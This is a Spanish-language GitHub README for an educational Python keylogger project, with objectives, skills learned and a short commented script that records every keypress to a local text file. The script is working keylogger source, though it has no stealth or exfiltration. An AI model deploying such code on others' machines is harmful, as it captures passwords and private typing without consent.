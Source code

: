 <img align="center" src="https://media.licdn.com/dms/image/v2/D4D16AQGUNxQ7NSC05A/profile-displaybackgroundimage-shrink_350_1400/profile-displaybackgroundimage-shrink_350_1400/0/1738695150340?e=1744243200&v=beta&t=oXX-ixT9bR3dJcYCLv4KBs5wjKFoeP0524kFGHQMYmQ" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Keylogger%20Español-000000" alt="Keylogger Español" /></a>
<a href="https://github.com/GabrielLugooo/WKeylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Keylogger%20Inglés-green" alt="Keylogger Inglés" /></a>

### Objetivos

Este proyecto tiene como objetivo capturar las pulsaciones de teclas del usuario y almacenarlas en un archivo de texto. Se basa en la biblioteca `keyboard` de Python para registrar cada tecla presionada y guardarla en un archivo `data.txt` en tiempo real.

El keylogger es una herramienta útil para comprender el funcionamiento de la captura de eventos de teclado en Python, lo que permite su aplicación en áreas como seguridad informática, pruebas de software y accesibilidad.

### Habilidades Aprendidas

- Captura de eventos de teclado en Python.
- Uso de la biblioteca `keyboard`.
- Manejo de archivos en Python.
- Escritura y lectura de datos en archivos de texto.
- Automatización de procesos con eventos del sistema.

### Herramientas Usadas

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)
![Static Badge](https://img.shields.io/badge/keyboard-000000?logo=keyboard&logoSize=auto)

- Python
- Biblioteca `keyboard`

### Proyecto

#### Vista Previa

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Código con Comentarios (Español)

```python
# Keylogger

# Instalar la librería necesaria con: pip install keyboard
# Importar la librería para detectar las pulsaciones de teclas
import keyboard

# Función que se ejecuta cada vez que se presiona una tecla
def pressedKeys(key):
    # Abrir (o crear) el archivo 'data.txt' en modo de adición ('a')
    with open('data.txt', 'a') as file:
        # Si la tecla presionada es la barra espaciadora, agregar un espacio en el archivo
        if key.name == 'space':
            file.write(' ')
        else:
            # Agregar el nombre de la tecla presionada al archivo
            file.write(key.name)

# Asignar la función pressedKeys para ejecutarse en cada pulsación de tecla
keyboard.on_press(pressedKeys)

# Mantener el programa en ejecución esperando eventos de teclado
keyboard.wait()
```

### Limitaciones

El Keylogger es solo para fines educativos bajo la licencia MIT.

---

<h3 align="left">Conecta Conmigo</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Versión%20Español-000000" alt="Versión Español" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Versión%20Inglés-Green" alt="Versión Inglés" /></a>

</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Créditos-Gabriel%20Lugo-green" alt="Créditos" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Vistas%20del%20Perfil&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
